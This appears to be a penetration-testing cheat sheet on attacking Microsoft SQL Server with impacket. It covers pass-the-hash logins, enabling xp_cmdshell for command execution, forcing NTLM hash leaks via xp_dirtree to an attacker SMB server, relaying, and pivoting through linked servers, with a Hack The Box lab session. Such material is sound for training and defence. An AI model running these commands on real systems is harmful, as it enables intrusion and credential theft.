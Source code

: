 # Microsoft SQL service (port 1433)

If the Domain controller or any other windows machine have accessible Microsoft SQL service through the standar port 1433, or any custom port accessible, you can use a domain user credentials (or local user credentials) to login. In some cases this can lead to RCE through "xp_cmdshell" function, ntlm authentication relay through "xp_dirtree" function or get the NTLM v2 hash from the user running the service, enumerate databases, arbitrary querys, and migrate to other computers if are connected through "links".

You can login into the service using mssqlclient.py from impacket suite:

`mssqlclient.py <domain>/<user>:'<password>'@<ip>`

Pass-the-hash: `mssqlclient.py <domain>/user:@<ip> -hashes '<optional LM hash>:<NT hash>'`

Kerberos auth: `sudo rdate -n <ip> ; <domain>/<user>:'<password>'@<machine>.<domain> -k`

<br>

### Try an RCE:

Whatever user you loged in, try to use "xp_cmdshell" command to execute a command inside that machine:

`xp_cmdshell "whoami"`

If this fails for any reason (probably) try to enable this function with:

`enable_xp_cmdshell`

`reconfigure`

`xp_cmdshell "whoami"`

NOTE: Remember that 'sa' user is more likely to be able to run xp_cmdshell in the machine

<br>

### NTLM relay / hash grabbing

You can also try to get ntlmv2 hash for the user which is running the server. Then you can crack offline that hash to get credentials, or (if you suspect that credentials could have admin rights against another domain machine) you can use "ntlmrelayx" tool to relay the credentials and get RCE (or whatever) to second machine.

From your attacking machine: `smbserver.py -smb2support share .` (also "responder" tool will work)

Inside mssqlclient.py session: `xp_dirtree \\<your_smbserver_ip>\whatever`

For NTLM relay look for "responder" and "ntlmrelayx" functionalitys.

<br>

### Database enumeration:

You can also make simple direct querys to enumerate the machine, users and sql process to get information:

Get all database: `EXEC sp_databases;` or `SELECT name FROM sys.databases;` "master", "tempdb", "model", "msdb" databases are coming from default.

Use specific database: `USE <database name>;`

Get tables from current database: `SELECT name FROM sys.tables;` or `SELECT * FROM information_schema.tables;`

Get content from specific table: `SELECT * FROM <table name>;`

Get columns from specific table: `SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('<table name>');`

Enumerate users and roles: `SELECT name FROM sys.syslogins;`


Other information you can enumerate from the machine:
```
SELECT @@VERSION;               -- Sql server version
SELECT SERVERPROPERTY('MachineName');  -- Hostname
SELECT SERVERPROPERTY('Edition');      -- Edition (Express, Standard, etc.)
SELECT SERVERPROPERTY('InstanceName'); -- Instance name
SELECT SERVERPROPERTY('ProductLevel'); -- Patch level

SELECT name, type_desc FROM sys.server_principals;   -- Server users
SELECT name, type_desc FROM sys.database_principals; -- Database users

SELECT * FROM sys.dm_exec_sessions;       -- Active sessions and connections
SELECT * FROM sys.dm_exec_connections;

SELECT * FROM sys.dm_exec_requests;       -- SQL process

sp_configure "show advanced options", 1 -- Show configuration options
```

<br>

### Links:

```diff
- Warning: This option might not be available if you are using an old version of imapcket.
Use v0.11 or above. In kali use command `impacket-mssqlclient`
```

When mssql service is conected to multiple machines (AD environment is a good example) you can access to this machines through mssqlclient.py. To do it just use `enum_links` option to see the "Linked servers" availables. Select any with `use_link "<name of linked server>"`. Now you are against a diferent machine, and you can try again xp_cmdshell or any step above.

Example:

```
┌──(xavi㉿kali)-[~/tools]
└─$ impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@10.10.11.89 -windows-auth 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
[!] Press help for extra shell commands
SQL (darkzero\john.w  guest@master)> enum_links


SQL (darkzero\john.w  guest@master)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL      

DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL      

Linked Server       Local Login       Is Self Mapping   Remote Login   
-----------------   ---------------   ---------------   ------------   
DC02.darkzero.ext   darkzero\john.w                 0   dc01_sql_svc   


SQL (darkzero\john.w  guest@master)> use_link "DC02.darkzero.ext"
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)>
```


<br>

Other interesting articles: https://one2bla.me/Breach-operations/attacking-mssql

<br>

Recomended labs to practice:
- Darkzero (Hackthebox)
- Signed (Hackthebox)
- Querier (Hackthebox) https://www.youtube.com/watch?v=hfzYnjBzW_k
